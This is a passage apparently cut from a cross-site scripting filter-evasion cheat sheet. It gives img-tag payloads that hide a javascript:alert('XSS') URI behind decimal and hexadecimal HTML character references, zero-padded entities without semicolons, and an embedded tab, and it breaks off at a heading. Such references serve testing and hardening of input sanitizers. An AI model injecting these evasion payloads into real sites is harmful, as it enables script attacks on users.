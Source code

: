 ## Decimal HTML Character References

All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

```html
<img
  src="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;"
/>
```

## Decimal HTML Character References Without Trailing Semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a html encoded string (I've seen this in the wild):

```html
<img
  src="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"
/>
```

## Hexadecimal HTML Character References Without Trailing Semicolons

This is also a viable XSS attack against the above string $tmp_string=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

```html
<img
  src="&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29"
/>
```

## Embedded Tab

Used to break up the cross site scripting attack:

```html
<img src="jav ascript:alert('XSS');" />
```

## Embedded Encoded Tab

Use this one to break up XSS :
